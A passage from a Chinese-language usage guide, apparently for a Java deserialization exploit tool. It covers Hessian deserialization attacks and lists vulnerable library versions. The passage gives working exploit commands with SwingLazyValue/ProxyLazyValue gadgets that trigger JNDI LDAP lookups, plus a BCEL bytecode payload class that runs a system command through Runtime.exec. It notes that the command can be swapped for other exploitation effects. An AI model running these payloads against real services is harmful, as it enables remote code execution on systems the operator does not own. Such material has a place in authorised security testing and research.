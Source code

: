 限制：Hessian版本限制如下

* caucho hessian <= 4.0.66
* sofa hessian <= 4.0.4
* hessian little <= 3.2.11

工具：

```bash
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:jndi:ldap://127.0.0.1:1389/swingLazyValue" -hessianType="Hessian2"

-m HessianAttack -g HashMapLazyValue -a "ProxyLazyValue:jndi:ldap://127.0.0.1:1389/proxyLazyValue" -hessianType="Hessian2"
```

#### BCELLoader BCEL字节码加载

描述：`com.sun.org.apache.bcel.internal.util.JavaWrapper`​的`_main`​公开静态方法中会使用BCELCLassLoader来加载BCEL字节码并执行字节码类的`public static void _main(String[] args)`​方法

限制：Hessian版本限制如下：

* caucho hessian <= 4.0.66
* sofa hessian <= 4.0.4
* hessian little <= 3.2.11

JDK BCELClassLoader <= 8u251

BCEL字节码的类需要这样写才能触发

```java
import java.io.IOException;

public class JavaWrapperMainPayload {
    public static void _main(String[] args){
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

使用方式：

```python
-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:BCELLoader:auto_cmd:calc" -hessianType "Hessian1"

-m HessianAttack -g HashMapLazyValue -a "SwingLazyValue:BCELLoader:auto_cmd:calc" -hessianType "Hessian2"
```

这里的auto_cmd参数可以替换为字节码执行的多种漏洞利用效果参数。

#### XSTL 代码执行
